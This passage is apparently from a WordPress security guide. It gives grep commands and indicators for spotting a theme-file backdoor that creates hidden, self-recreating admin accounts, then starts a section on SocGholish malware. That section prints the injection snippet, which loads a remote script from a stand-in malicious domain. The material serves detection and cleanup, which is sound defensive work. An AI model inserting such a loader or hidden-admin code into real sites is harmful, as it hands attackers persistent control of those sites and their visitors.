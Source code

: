 **Detection Commands:**
```bash
# Check for user creation in THEMES (plugins may legitimately use this)
find wp-content/themes -name "*.php" -exec grep -l "wp_insert_user" {} \;

# Check for fake admin email
grep -r "admin@wordpress.com" wp-content/themes/

# Check for hidden user ID storage
grep -r "_pre_user_id" wp-content/

# Check for user protection functions
grep -r "protect_user\|wp_admin_users_protect" wp-content/themes/
```

**What Makes This Dangerous:**
- Uses LEGITIMATE WordPress functions (wp_insert_user, username_exists)
- Function names sound like security features ("protect_user")
- Hidden in theme files (not obvious malware location)
- Creates invisible admin account
- Auto-recreates if deleted
- Hard to distinguish from legitimate code

**Common Indicators:**
1. `wp_insert_user()` in theme files (themes shouldn't create users)
2. Hardcoded username/password (especially 'root', 'admin')
3. Email: `admin@wordpress.com` (fake WordPress email)
4. Hidden user ID: `_pre_user_id` or similar
5. User protection functions: `protect_user_from_deleting()`, `wp_admin_users_protect_*()`

**Expected Result:** 0 instances in themes (may exist legitimately in plugins)

**⚠️ Critical Alert if Found in themes:**
- This indicates a persistent backdoor
- Attacker has ongoing admin access
- May auto-create hidden admin accounts
- Remove ENTIRE related code block, not just parts

#### 5. SocGholish JavaScript Malware (🆕 Oct 29, 2025)

**Pattern:**
```javascript
;(function(f,i,u,w,s){
    w=f.createElement(i);
    s=f.getElementsByTagName(i)[0];
    w.async=1;
    w.src=u;
    s.parentNode.insertBefore(w,s);
})(document,'script','https://malicious-domain.com/script.js');
```

**Detection:**
```bash
# Check for malicious domain
grep -r "content-website-analytics" wp-content/themes/

# Check for script injection pattern
grep -r "createElement.*insertBefore.*script" wp-content/themes/ | grep -v node_modules
```
